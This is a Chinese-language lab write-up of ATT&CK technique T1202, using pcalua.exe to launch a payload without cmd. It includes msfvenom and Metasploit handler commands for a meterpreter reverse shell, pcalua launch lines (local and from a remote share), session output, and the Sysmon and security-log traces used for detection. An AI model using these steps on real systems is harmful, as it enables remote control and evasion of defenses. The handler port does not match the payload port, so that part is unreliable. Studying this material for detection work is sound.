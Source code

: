 # T1202-Win-间接命令执行-基于Pcalua执行payload(白名单)

## 来自ATT&CK的描述

可以使用各种Windows实用程序来执行命令，而不需要调用cmd。例如，Forfiles、程序兼容性助手（pcalua.exe）、WSL（WindowsSubsystem for Linux）组件以及其他实用程序可以从命令行界面、运行窗口或通过脚本来调用程序和命令的执行。

攻击者可能会滥用这些功能来规避防御，尤其是在破坏检测和/或缓解控制（如组策略）的同时执行任意动作。（这些控制限制/阻止了cmd或恶意负载相关文件扩展名的使用。）

## 测试案例

Windows进程兼容性助理(Program Compatibility Assistant)的一个组件。

说明：Pcalua.exe所在路径已被系统添加PATH环境变量中，因此，Pcalua命令可识别

Windows 7 默认位置：

C:\Windows\System32\pcalua.exe

补充说明：在高版本操作系统中，可以通过配置策略，对进程命令行参数进行记录。日志策略开启方法：`本地计算机策略>计算机配置>管理模板>系统>审核进程创建>在过程创建事件中加入命令行>启用`，同样也可以在不同版本操作系统中部署sysmon，通过sysmon日志进行监控。

## 检测日志

Windows 安全日志（需要自行配置）

## 测试复现

### 环境准备

攻击机：Kali2019

靶机：win7

### 攻击分析

#### 生成payload

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.126.146 LPORT=6666 -f exe > shell.exe
```

#### MSF配置

```bash
msf5 exploit(multi/handler) > back
msf5 > use exploit/multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 192.168.126.146
lhost => 192.168.126.146
msf5 exploit(multi/handler) > set lport 5555
lport => 5555
msf5 exploit(multi/handler) > exploit
```

#### 靶机执行payload

```cmd
Pcalua -m -a \\192.168.1.119\share\shell.exe #可远程加载

Pcalua -m -a C:\Users\12306Br0\Desktop\a\shell.exe #可本地加载
```

#### 反弹shell

```bash
Msf5 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 192.168.126.146:6666
[*] Sending stage (180291 bytes) to 192.168.126.149
[*] Meterpreter session 4 opened (192.168.126.146:6666 -> 192.168.126.149:49163) at 2020-04-19 00:12:39 +0800

meterpreter > getuid
Server username: 12306Br0-PC\12306Br0
meterpreter > getpid
Current pid: 2804
```

## 测试留痕

```log
#sysmon日志
EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.744
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ProcessId: 2148
Image: C:\Windows\System32\pcalua.exe
FileVersion: 6.1.7600.16385 (win7_rtm.090713-1255)
Description: Program Compatibility Assistant
Product: Microsoft® Windows® Operating System
Company: Microsoft Corporation
OriginalFileName:
CommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=280038828C2412F3867DDB22E07759CB26F7D8EA
ParentProcessGuid: {bb1f7c32-26ca-5e9b-0000-00109cdf0d00}
ParentProcessId: 2724
ParentImage: C:\Windows\System32\cmd.exe
ParentCommandLine: "C:\Windows\system32\cmd.exe"

EventID: 1
Process Create:
RuleName:
UtcTime: 2020-04-18 16:12:37.775
ProcessGuid: {bb1f7c32-26f5-5e9b-0000-0010621a0e00}
ProcessId: 2804
Image: C:\Users\12306Br0\Desktop\a\shell.exe
FileVersion: 2.2.14
Description: ApacheBench command line utility
Product: Apache HTTP Server
Company: Apache Software Foundation
OriginalFileName: ab.exe
CommandLine: "C:\Users\12306Br0\Desktop\a\shell.exe"
CurrentDirectory: C:\Users\12306Br0\
User: 12306Br0-PC\12306Br0
LogonGuid: {bb1f7c32-25f5-5e9b-0000-0020db6d0600}
LogonId: 0x66ddb
TerminalSessionId: 1
IntegrityLevel: Medium
Hashes: SHA1=C11C194CA5D0570F1BC85BB012F145BAFC9A4D6C
ParentProcessGuid: {bb1f7c32-26f5-5e9b-0000-001075120e00}
ParentProcessId: 2148
ParentImage: C:\Windows\System32\pcalua.exe
ParentCommandLine: Pcalua  -m -a C:\Users\12306Br0\Desktop\a\shell.exe

#win7安全日志
EventID：4688
进程信息:
新进程 ID: 0x864
新进程名: C:\Windows\System32\pcalua.exe

EventID：4688
进程信息:
新进程 ID: 0xaf4
新进程名: C:\Users\12306Br0\Desktop\a\shell.exe

EventID：5156
应用程序信息:
进程 ID: 2804
应用程序名称: \device\harddiskvolume2\users\12306br0\desktop\a\shell.exe

网络信息:
方向: 出站
源地址: 192.168.126.149
源端口: 49163
目标地址: 192.168.126.146
目标端口: 6666
```

## 检测规则/思路

无具体检测。监控和分析基于主机的检测机制（如Sysmon）中的日志来查看事件，比如查看是否有进程创建事件（创建过程中使用了参数来调用程序/命令/文件/生成子进程/网络连接，或者该创建是由这些参数导致的）。

## 参考推荐

MITRE-ATT&CK-T1202

<https://attack.mitre.org/techniques/T1202/>

渗透测试-基于白名单执行payload--Pcalua

<https://blog.csdn.net/qq_17204441/article/details/89881795>
